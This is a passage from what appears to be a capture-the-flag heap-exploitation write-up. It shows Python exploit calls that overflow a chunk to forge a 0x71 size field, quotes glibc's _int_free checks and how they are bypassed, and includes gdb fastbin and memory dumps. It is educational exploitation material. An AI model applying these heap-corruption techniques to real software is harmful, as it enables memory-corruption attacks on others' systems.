 It's chunk's `x` and `y` turn. We will overflow `memo_4`'s size and make it `0x71`.

```python
alloc(0x18, p64(0) + p64(0x71) + p64(0))
```

```
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0

0x5555557571b0:	0x0000000000000020	0x0000000000000020 <-- x
0x5555557571c0:	0x0000555555757210	0x0000000100000018
0x5555557571d0:	0x0000000000000020	0x0000000000000020
0x5555557571e0:	0x0000000000000020	0x0000000000000020
0x5555557571f0:	0x0000000000000020	0x0000000000000020
0x555555757200:	0x0000000000000020	0x0000000000000020 <-- x->name
0x555555757210:	0x0000000000000000	0x0000000000000071 <-- memo_4
0x555555757220:	0x0000000000000000	0x0000000100000068
0x555555757230:	0x0000000000000000	0x0000000000000071
0x555555757240:	0x0000000000000021	0x0000000000000021
0x555555757250:	0x0000000000000021	0x0000000000000021
0x555555757260:	0x0000000000000021	0x0000000000000021
0x555555757270:	0x0000000000000021	0x0000000000000021
0x555555757280:	0x0000000000000021	0x0000000000000021
```

We successfully overwrote `memo_4`'s size with **0x71**. Before we free it, we need to make sure the following `_int_free` checks
are bypassed.

```c
if (__builtin_expect (chunksize_nomask (chunk_at_offset (p, size))
			  <= 2 * SIZE_SZ, 0)
	|| __builtin_expect (chunksize (chunk_at_offset (p, size))
			     >= av->system_mem, 0))
```

The above checks make sure that the chunk next to the one currently being free'd (`0x555555757210 + 0x78`) is of reasonable size (greater than or equal to 
`0x20` and less than or equal to `system_mem`). 

```python
free(4)
```

```
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757210 --> 0x0
(0x80)     fastbin[6]: 0x0

0x5555557571b0:	0x0000000000000020	0x0000000000000020 <-- x
0x5555557571c0:	0x0000555555757210	0x0000000100000018
0x5555557571d0:	0x0000000000000020	0x0000000000000020
0x5555557571e0:	0x0000000000000020	0x0000000000000020
0x5555557571f0:	0x0000000000000020	0x0000000000000020
0x555555757200:	0x0000000000000020	0x0000000000000020 <-- x->name
0x555555757210:	0x0000000000000000	0x0000000000000071 <-- memo_4
0x555555757220:	0x0000000000000000	0x0000000100000068
```
